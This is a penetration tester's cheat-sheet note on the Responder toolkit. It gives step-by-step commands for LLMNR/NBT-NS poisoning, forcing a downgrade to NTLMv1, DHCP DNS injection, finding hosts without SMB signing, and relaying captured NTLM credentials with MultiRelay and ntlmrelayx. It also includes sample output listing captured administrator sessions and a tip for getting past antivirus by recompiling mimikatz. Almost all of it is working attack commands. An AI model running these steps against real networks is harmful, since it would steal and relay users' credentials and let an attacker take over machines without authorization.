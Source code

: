 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#enumeration #relay-enumeration
# Source: 

https://github.com/lgandx/Responder

# Tools in Responder: 

Location: /usr/share/Responder/tools

# Make changes to config to turn off services:

`nano /usr/share/responder/Responder.conf`

# Configuring MultiRelay: 
In Kali Linux: 
1. pip install pycryptodome
2. Install Mingw and create multi relay binaries:
```
sudo apt-get install gcc-mingw-w64-x86-64
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
```
4. python3 MultiRelay.py
```
Usage: 
responder-MultiRelay -t 10.20.30.40 -u Administrator lgandx admin
responder-MultiRelay -t 10.20.30.40 -u ALL

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -t 10.20.30.45        Target server for SMB relay.
  -p 8081               Additional port to listen on, this will relay for
                        proxy, http and webdav incoming packets.
  -u, --UserToRelay     Users to relay. Use '-u ALL' to relay all users.
  -c whoami, --command=whoami
                        Single command to run (scripting)
  -d, --dump            Dump hashes (scripting)
```


# Starting Responder:

- responder -I [Interface] -A
- responder -I [Interface] -i [IP Address] or -e [External IP] -A

## Starting Responder in Basic Authentication Mode
- responder -I [Interface] -wdF -b

## Force NTLM Authentication to version 1 instead of version 2:
- responder -I [Interface] -wdF --lm --disable-ess

## External IP Poisoning
- responder -I [Interface] -e 172.21.1.2

## DNS Injection in DHCP Responses
- responder -i [interface] -D

# Using Responder-RunFinger to verify if SMB Signing is not enabled

- responder-RunFinger -i 172.21.0.0/24
- python3 RunFinger.py -i 172.21.0.0/24

# Using Responder-MultiRelay
Tips:
Multirelay uses the default version of mimikatz and it can easily flagged by AV. It is recommend to compile your own custom version and use it with mutlirelay.
Do not run multirelay against targets that have smb message_signing enabled:

- responder-Multirelay -t 172.21.0.0 - u ALL
- python3 Multirelay.py -t 172.21.0.0 -u ALL

# Using Responder with Impacket-Ntlmrelayx
NtlmRelayX is an impacket script that allows you to conduct NTLM Relay Attacks, by creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

1. When you are using responder to capture challenges and relay them to ntlmrelayx you will need to turn off HTTP and SMB in the responder.conf file. Also have a list of what systems are running smb and have smb signing disabled.

2. Set up a socks proxy on port 1080. This socks proxy will successfully relay the traffic to ntlmrelayx. 
- sudo nano /etc/proxychains4.conf
```
[ProxyList]
# NtlmRelayX Socks Proxy
socks4 127.0.0.1 1080
# Other Proxies
```
3. Run Responder and NtlmRelayX to watch the magic happen:
- sudo Responder -I [Interface]
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt

To view a full list of captured sessions from NtlmRelayX
```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
```

# References: 

- https://github.com/lgandx/Responder


